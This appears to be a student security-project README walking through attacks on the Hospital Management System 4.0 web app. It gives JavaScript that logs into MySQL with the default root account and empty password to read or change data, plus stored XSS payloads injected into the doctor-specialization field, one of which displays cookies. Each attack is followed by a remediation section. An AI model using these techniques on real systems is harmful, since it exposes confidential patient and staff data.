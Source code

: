 # Information Security Project

List of content:
 - Introduction
 - Hospital Management System 4.0
 - Vulnerabilities
    - No security modifications on database
    - XSS attacks
- Damages
- References

 ## Introduction
 The aim of this project is to show how to hack the "Hospital Management System 4.0" whit basic knowledge of:
 - HTML
 - JavaScript
 - MySql
 - XSS-Attacks
To see how to get started please have a look at the "instructions.md" file.


## Hospital Management System 4.0
phpgurukul:
> Hospital Management System is a web application for the hospital which manages doctors and patients.

The sofware is based on php and uses a My SQL database.
The software offers 3 different modules which are the following:
- Admin module
- User module
- Doctor module

Each module has access to different tasks which are important for every hospital.
One of the most importan tasks is the ability to store personal informations of each patient.
This data is the most interesting data for hackers.

## Vulnerabilities of the Software

### No security modifications on database
We already encounter the first vulnerability in the software when we set up the software. 
As you may have noticed, you were not asked to change the security settings at any stage of 
the database setup. So it is possible for everyone on the installation server to read the database 
data with simple SQL scripts.
Due to this security hole it is possible to perform any action, e.g. change the admin password, 
read out the patient data or delete the entire data. 
To perform such actions it is sufficient to connect to the database with the standard authentication data:
- Username: "root"
- Password: ""

#### Examples from project

##### Create database connection
The following piece of code shows how to create a databse connection in javaScript.
All you need to know for this are the standard authentication data and the name of the 
database which we know already from the setup.
``` javaScript
function getDatabaseConnection() {
	const mysql = require('mysql');

	return mysql.createConnection({
		host: "localhost",
		user: "root",
		password: "",
		database: "hms"
	});
}
```
##### Execute a SQL query
The following code shows how to execute a SQL query.
In addition to it if the flag "open" is set to true it opens
the browser with the link to one of the vulnerable sites.
An example for a query could be:
"SELECT password FROM admin".
``` javaScript
function executeQuery(sql, open = false) {
	const con = getDatabaseConnection();
	con.connect(function (err) {
		if (err) console.log("There went somthing wrong! Please try again!", newLine);
		con.query(sql, function (err, result) {
			if (err) console.log("There went somthing wrong! Please try again!", newLine);
			if (open) {
				var opn = require('opn');
				opn('http://localhost/hospital/hms/admin/doctor-specilization.php');
			}
			else
				console.log(result)
			main();
		});
	});
}
```
#### Solution
The solution to this problem is quit simple.
It would be enough to show the user how to set up the security settings of the databse
and how to change this settings also in the given php project.
An other solution would be to provide a service which sets up the environment for the client.

### XSS Attacks
Most of the input fields of the software are vulnerable to XSS attacks.
One of this fields is the field "doctorspecilization". Using basic knowledge of XSS attacks, html tables and javaScript
you are able to add a XSS atack to the database.
Here is an example of what you need to enter: ```</td><script>alert("Hello! I am a XSS attack")<script><td>````

#### Why does this work?
First of all it works because there is no check on the backend site for the input values.
The piece of code we see above works because a simple html table is used to display the list of doctor specilizations.
- ```</td>```closes the cell of the table.
- ```<script></script>``` allows you to execute javaScript.
- ```alert("Hello! I am a XSS attack")``` shows a small popup with the message "Hello! I am a XSS attack".
- ```<td>``` opens the next cell of the table to avoid an html parsing error.

#### Examples from project
Unfortunately my javaScript basics were not good enough to create a valid HTTP request of type "POST".
This request always ended with the server not giving me a response after I added parameters to the request. 
This could be security measures of the tested software or a bug on my part.
To automate the part of the XSS attack I used the vulnerabilities of the database and wrote the attack directly 
into the database. This is similar to the procedure you would enter in the application itself. 

The following code asks the user to make a few decisions first. These decisions will determine how exactly the XSS 
attack looks like. Then the XSS attack is assembled according to the user's wishes and written to the database using 
the functions we have already seen in the previous section. This makes it possible to display the cookies, for example.  

``` javaScript
function addXSS() {
	askForInput();
	showXSSOutputOptions();
	const outputFun = readUserInput("Please enter the output function you want to use");
	const outputMsg = readUserInput("Please enter the message you want to show or type 'cookie' if you want to see the cookies: ");
	let msg;
	let query;
	switch (outputFun) {
		case "1":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>alert(${msg});</script><td>')`;
			executeQuery(query, true);
			break;
		case "2":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>console.log(${msg});</script><td>')`;
			executeQuery(query, true);
		break;
		default:
			console.log("Please enter a valid input!");
			addXSS();
			break;
	}
}
```

#### Solution
To prevent a XSS attack on input fields you have to sanitize the input of the user.
You also have to be attention where you put this input because even if you filter the 
input of the user there is no sanitazion method which is able to prevent to all XSS attacks.
One of the functions you have to remember when creating a php project with user input is
```htmlspecialchars()```. This function will convert special characters into HTML entities.
Another useful function is ```addslashes()```. This function adds a slash in attempt to prevent 
an attacker from terminating the variable assignment and appending executable code.

These are just a few basic precautions that are usually not sufficient to prevent XSS attacks. 
A very detailed description how to prevent XSS attacks can be found [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).

## Damages
A hacker attack on hospital software would naturally have serious consequences. The database contains 
private information of patients and hospital staff. Furthermore, the patients' appointments are also 
managed by this software. Such data is strictly confidential and should never fall into the wrong hands.

## References
You can find the expoit [here](https://www.exploit-db.com/exploits/47841).